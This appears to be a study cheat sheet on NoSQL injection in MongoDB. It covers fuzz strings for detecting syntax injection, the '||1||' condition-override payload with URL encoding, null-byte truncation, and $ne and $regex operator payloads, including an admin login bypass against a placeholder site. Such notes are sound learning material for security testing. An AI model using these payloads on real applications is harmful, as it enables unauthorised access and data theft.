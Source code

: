 
## syntax injection 
this type is very rare
#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```json

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### **Determining which characters are processed**
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

#### **Confirming conditional behavior**
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
'||1||'
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
code in backend :
```
this.category == 'fizzy'||'1'=='1'
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```

